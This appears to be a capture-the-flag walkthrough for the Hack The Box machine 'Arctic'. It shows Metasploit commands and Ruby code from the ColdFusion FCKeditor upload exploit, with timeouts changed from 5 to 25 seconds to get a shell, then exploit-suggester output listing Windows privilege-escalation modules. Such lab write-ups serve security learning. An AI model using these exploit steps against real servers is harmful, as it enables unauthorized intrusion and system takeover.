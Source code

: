 # Arctic
## The Magic of Coldfusion & Modification

Let's get straight into the point. You will use a vulnerable Adobe Coldfusion at port 8500 to gain access to the system.
> This is not as straight forward as it usually is
```
use windows/http/coldfusion_fckeditor
set RHOSTS 10.10.10.11
set RPORT 8500
```
*Boom, You got yourself no shell*
> That is because the server has a security feature of waiting about 25s before responding

> This is how we get around it

Find the metasploit module windows/http/coldfusion_fckeditor, and modify it to wait the 25s instead of 5s.

```ruby
res = send_request_cgi(
  {
    'uri'		=> normalize_uri(datastore['FCKEDITOR_DIR']),
    'query'		=> "Command=FileUpload&Type=File&CurrentFolder=/#{page}%00",
    'version'	=> '1.1',
    'method'	=> 'POST',
    'ctype'		=> 'multipart/form-data; boundary=' + dbl.bound,
    'data'		=> file,
  }, 5)

if ( res and res.code == 200 and res.body =~ /OnUploadCompleted/ )
  print_status("Upload succeeded! Executing payload...")

  send_request_raw(
    {
      # default path in Adobe ColdFusion 8.0.1.
      'uri'		=> '/userfiles/file/' + page,
      'method'	=> 'GET',
    }, 5)
```
> This bit of code needs to be changed to this ->

```ruby
res = send_request_cgi(
  {
    'uri'		=> normalize_uri(datastore['FCKEDITOR_DIR']),
    'query'		=> "Command=FileUpload&Type=File&CurrentFolder=/#{page}%00",
    'version'	=> '1.1',
    'method'	=> 'POST',
    'ctype'		=> 'multipart/form-data; boundary=' + dbl.bound,
    'data'		=> file,
  }, 25)

if ( res and res.code == 200 and res.body =~ /OnUploadCompleted/ )
  print_status("Upload succeeded! Executing payload...")

  send_request_raw(
    {
      # default path in Adobe ColdFusion 8.0.1.
      'uri'		=> '/userfiles/file/' + page,
      'method'	=> 'GET',
    }, 25)
```

*Now exploit with the module again, and you have got yourself a system shell!*

After gaining a meterpreter shell and running multi/recon/local_exploit_suggester, you will find yourself with many exploits to choose from. Pick almost ANYTHING and WIN!
```
[*] 10.10.10.11 - Collecting local exploits for x86/windows...
[*] 10.10.10.11 - 29 exploit checks are being tried...
[+] 10.10.10.11 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
*:)!*
